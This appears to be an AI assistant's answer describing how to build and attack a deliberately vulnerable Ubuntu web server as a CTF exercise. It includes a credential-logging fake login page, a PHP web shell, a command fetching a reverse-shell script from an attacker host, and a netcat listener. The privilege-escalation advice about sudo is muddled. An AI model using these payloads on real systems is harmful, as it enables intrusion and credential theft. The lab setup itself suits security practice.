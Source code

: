 # **💻 Advanced CTF Challenge: "Break the Vault"**
## **Scenario:**  
Your target is an Ubuntu server running a **misconfigured web service**. Your goal is to:  
✅ **Find the hidden user credentials**  
✅ **Gain a reverse shell**  
✅ **Escalate privileges to root**  
✅ **Capture the flag** (`root.txt`)

---

# **🛠 Setting Up the Challenge**
### **1️⃣ Launch an Ubuntu VM**
Make sure your **headless VM** is running. If you're using **AWS**, **Google Cloud**, or **VirtualBox**, ensure the **networking allows connections** (e.g., port 80, 22, and 4444 open).  

### **2️⃣ Install Required Packages**
Run these commands on the **target machine (Ubuntu VM)** to install the necessary tools:
```bash
sudo apt update && sudo apt install -y apache2 php netcat wget curl gcc
```
This installs:  
- **Apache** (web server)  
- **PHP** (to create a backdoor)  
- **Netcat** (for a reverse shell)  
- **GCC** (for privilege escalation)

---

# **📂 3️⃣ Create a Vulnerable Web Application**
### **Step 1: Start a Web Server**
```bash
sudo systemctl start apache2
```
Ensure it's running:
```bash
systemctl status apache2
```

### **Step 2: Add a Fake Login Page**
Create the following vulnerable **PHP page**:  
```bash
sudo nano /var/www/html/index.php
```
Paste this:
```php
<?php
if(isset($_POST['username']) && isset($_POST['password'])){
    $file = fopen("credentials.txt", "a");
    fwrite($file, $_POST['username'] . ":" . $_POST['password'] . "\n");
    fclose($file);
    echo "Login Failed! Try Again.";
}
?>
<!DOCTYPE html>
<html>
<body>
    <h2>Admin Login</h2>
    <form method="post">
        Username: <input type="text" name="username"><br>
        Password: <input type="password" name="password"><br>
        <input type="submit">
    </form>
</body>
</html>
```
This script **logs usernames and passwords to credentials.txt**.

### **Step 3: Create a Backdoor**
```bash
sudo nano /var/www/html/shell.php
```
Paste this:
```php
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```
This allows remote execution with:
```bash
curl "http://<target-ip>/shell.php?cmd=whoami"
```

### **Step 4: Restart Apache**
```bash
sudo systemctl restart apache2
```

---

# **💀 4️⃣ Exploiting the Target**
Now, from **your attacker machine** (your main system or Kali Linux), try these attacks:

### **Step 1: Discover Open Ports**
```bash
nmap -sV <target-ip>
```
Look for **port 80 (Apache)**.

### **Step 2: Try the Web Shell**
Visit:
```
http://<target-ip>/shell.php?cmd=whoami
```
Run:
```bash
curl "http://<target-ip>/shell.php?cmd=id"
```
This executes commands remotely.

### **Step 3: Upload a Reverse Shell**
Run:
```bash
curl "http://<target-ip>/shell.php?cmd=wget http://<attacker-ip>/rev.php -O /tmp/rev.php"
```
Then:
```
curl "http://<target-ip>/shell.php?cmd=php /tmp/rev.php"
```

### **Step 4: Catch the Reverse Shell**
On **your machine**, listen for the shell:
```bash
nc -lvnp 4444
```
If successful, you get a **remote shell**! 🎯

---

# **🔥 5️⃣ Privilege Escalation**
### **Step 1: Find SUID Binaries**
Run:
```bash
find / -perm -4000 2>/dev/null
```
Look for a **vulnerable binary** like `/usr/bin/sudo`.

### **Step 2: Exploit a SUID Binary**
If `find` shows:
```
/usr/bin/sudo
```
Try:
```bash
sudo su
```
You might become **root**! 🏆

---

# **🏁 6️⃣ Capture the Flag**
Check for a **root flag**:
```bash
cat /root/root.txt
```
If you see:
```
FLAG{you_have_root_access}
```
🎉 **Challenge completed!**

---

# **🔥 Bonus Challenges**
✅ **Brute-force credentials.txt**  
✅ **Find hidden files using `dirb`**  
✅ **Use Metasploit for automated exploitation**  

Would you like me to create a **write-up template** for your CTF practice? 🚀